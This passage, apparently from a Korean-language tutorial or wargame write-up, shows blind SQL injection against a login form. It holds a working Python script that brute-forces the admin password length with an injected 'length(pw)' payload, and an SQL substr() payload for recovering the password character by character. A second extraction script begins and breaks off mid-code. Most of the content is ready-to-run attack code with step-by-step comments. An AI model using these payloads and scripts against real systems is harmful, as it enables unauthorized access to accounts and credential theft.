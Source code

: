 ```python
import requests
# requests 모듈 import

for length in range(1,100):
    # length 브루트포스

    # url에 data 전송하여 리턴값 받음
    data = {
        'id':f"admin' and length(pw)={length}--'",
        # 패스워드 길이 알아내기위한 sql 구문
        'pw':'No Value'
        # 아무런 값
    }

    Urlrequest = requests.post(Url, data = data)
    # url 에 post 방식으로 data 전달

    if Urlrequest.text.find("Login succee!") > 0:
    #로그인 성공시 나오는 Login succee! 가 있는지 판단
        print("admin User length = ",length)
        #위의 조건이 맞다면 length 를 출력후 for 문을 빠져나옴
        break
```

### __비밀번호 한자리씩 브루트 포스__
* * *
<br>

```sql
SELECT * FROM member WHERE id='admin' and substr(pw,1,1)='0~z'--'' and pw=''
-> User admin Pssword 한자리씩 브루트 포스
```

![substr result](./image/mysql-blind-sql-injection-substr-result.png)

### User admin Password substr python Script

<br>

```python
import requests

check = 1 # 비밀번호 길이 체크

AdminPassword = '' # 비밀번호 저장

for pwlength in range(1,100): 

    '''
    비밀번호 길이
    대신 비밀번호 길이를 안다면 check 변수 필요없이
    range 에 range(1,passwordlength+1) 하면 된다.
    대신 check 를 할경우 시간이 더 소모된다.
    '''

    for i in range(33,122): 
        # 비밀번호 chr() 함수로 문자 변형
        data = {
```
